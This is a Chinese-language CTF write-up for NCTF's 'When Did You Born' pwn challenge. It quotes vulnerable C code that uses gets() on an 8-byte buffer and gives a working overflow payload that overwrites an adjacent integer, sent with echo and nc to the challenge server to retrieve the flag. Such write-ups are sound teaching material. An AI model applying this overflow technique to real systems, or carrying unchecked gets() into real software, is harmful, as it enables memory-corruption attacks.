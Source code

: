 ```yaml
---
layout: post
title: NCTF Pwn 1 题题解
tags: NCTF Write-up Pwn
---
```


* 目录: 
{:toc}

### 100 When Did You Born
* 题目:  
![](http://r.photo.store.qq.com/psb?/V11aPCg53lyBwf/BPjg8J*9v7FTCfDdHLcxV*PlLzdRBJA3iaUJ6qT5H04!/r/dHkBAAAAAAAA){: width="80%"}  

	> nc 115.28.79.166 5555  
	> 提交格式为flag{************}  
	> 尝试不再Naive  
	> 然后将输入发送至115.28.79.166的5555端口，获取flag  
	>   
	> Tags: gets, 栈溢出   
	> [test](http://ctf.nuptzj.cn/static/uploads/785732eaf09a34c8e3664ce68d7c8e54/test)  [test.c](http://ctf.nuptzj.cn/static/uploads/ead01a3082b1c650ae75089c3634b7a5/test.c)  

* 题解:  
先来看看 test.c: 

	> ```c  
	> #include <stdio.h>
	> 
	> struct Student {
    >     char name[8];
    >     int birth;
	> };
	> 
	> int main(void) {
    >     struct Student student;
    >     printf("What\'s Your Birth?\n");
    >     scanf("%d", &student.birth);
    >     while (getchar() != '\n') ;
    >     if (student.birth == 1926) {
    >         printf("You Cannot Born In 1926!\n");
    >         return 0;
    >     }
    >     printf("What\'s Your Name?\n");
    >     gets(student.name);
    >     printf("You Are Born In %d\n", student.birth);
    >     if (student.birth == 1926) {
    >         printf("You Shall Have Flag.\n");
    >         system("cat flag");
    >     } else {
    >         printf("You Are Naive.\n");
    >         printf("You Speed One Second Here.\n");
    >     }
    >     return 0;
	> }
	> ```  

	再运行该程序试试看:  

	> ```shell
	> biteme@bITeMe:~/下载$ echo -ne "0\n12345678a" | ./test
	> ```  
	> What's Your Birth?
	> What's Your Name?
	> You Are Born In 97
	> You Are Naive.
	> You Speed One Second Here.
	   
	You Are Born In 97, 97 正好是输入中 a 的 ascii 码, 这意味着, gets() 函数将输入超过 8 字节的部分也保留下来, 并且刚好覆盖到高地址(可输出 &student.birth 来观察)的 birth.  
	那么将 a 构造成 1926(0x0786) 就可以满足条件了:

	> ```shell
	> biteme@bITeMe:~/下载$ echo -ne "0\n12345678\x86\x07" | ./test
	> ```
	> What's Your Birth?
	> What's Your Name?
	> You Are Born In 1926
	> You Shall Have Flag.
	> cat: flag: 没有那个文件或目录

	最后用

	> ```shell
	> echo -ne "1\n12345678\x86\x07" | nc -v 115.28.79.166 5555
	> ```

	来获取 flag.


* flag: flag{gets_is_dangerous_+1s}